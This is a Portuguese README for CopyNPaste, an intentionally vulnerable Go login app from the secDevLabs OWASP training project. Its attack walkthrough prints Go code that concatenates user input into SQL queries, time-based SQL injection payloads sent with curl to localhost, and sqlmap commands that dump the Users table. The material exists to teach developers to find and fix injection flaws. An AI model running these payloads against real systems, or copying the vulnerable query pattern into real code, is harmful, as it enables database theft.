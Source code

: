 # CopyNPaste API

<p align="center">
<img src="images/CopyNPaste.png"/><a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

CopyNPaste é uma aplicação web Golang que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 

## Index

- [CopyNPaste API](#copynpaste-api)
  - [Index](#index)
  - [O que é injeção?](#o-que-é-injeção)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💉](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<img src="images/CopyNPaste.png" align="center"/>

## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas SQL

Depois de revisar `NewUser()` , `CheckIfUserExists()` e `AuthenticateUser()` de [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>), foi possível ver que algumas entradas de usuários estão concatenadas com consultas SQL, conforme mostrado nos seguintes trechos de código:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.

<img src="images/attack-0.png" align="center"/>

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se um atraso de 5 segundos será observado após o envio:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Usando `curl` na interface CLI, podemos testá-lo novamente, desta vez com um atraso maior de 30 segundos:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Requisição:

<img src="images/attack-2.png" align="center"/>

30 segundos depois, confirmando que podemos executar comandos no servidor: 

<img src="images/attack-3.png" align="center"/>

#### 🔥

Um invasor pode agora criar qualquer consulta SQL maliciosa e enviá-la para a API que, em teoria, seria executada. Para esta narrativa de ataque, [sqlmap](https://github.com/sqlmapproject/sqlmap) será usado para exemplificar como um ataque automatizado de SQL Injection pode ser executado.

Para instalar o sqlmap em um Mac você pode simplesmente digitar:

```sh
brew install sqlmap
```

O primeiro passo possível é criar um arquivo, `postRequest.txt`, contendo o próprio HTTP POST, conforme mostrado no código a seguir:


```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Antes de executar o ataque, você pode abrir uma nova aba em seu terminal e digitar o seguinte comando para observar como as solicitações maliciosas serão recebidas pelo app:

```sh
docker logs a1_api -f
```

Depois disso, agora podemos usar a opção `-r` e esperar que o sqlmap execute várias solicitações maliciosas até encontrar o parâmetro vulnerável:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

Depois de entender como esse banco de dados é estruturado, um invasor pode usar o seguinte comando para recuperar os detalhes do banco de dados:

```sh
sqlmap -r postRequest.txt --tables
```

E, em seguida, recupere informações confidenciais dele:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas SQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
